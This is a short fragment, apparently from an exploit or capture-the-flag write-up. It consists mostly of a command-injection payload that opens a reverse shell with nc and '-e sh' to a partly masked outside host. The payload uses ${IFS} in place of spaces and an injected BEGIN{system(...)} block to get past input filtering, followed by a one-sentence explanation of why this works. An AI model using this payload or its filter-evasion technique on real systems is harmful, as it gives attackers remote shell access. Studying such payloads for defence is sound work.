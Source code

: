 nc${IFS}0.xxx.xxxx.io${IFS}xxxx${IFS}-e${IFS}sh {}BEGIN{system(iface)}#
the explanation was 
you could freely add spaces, and if you don't wrap things in string quotes then all the required characters e.g. for BEGIN{system(iface)} would be escaped and interpreted as a string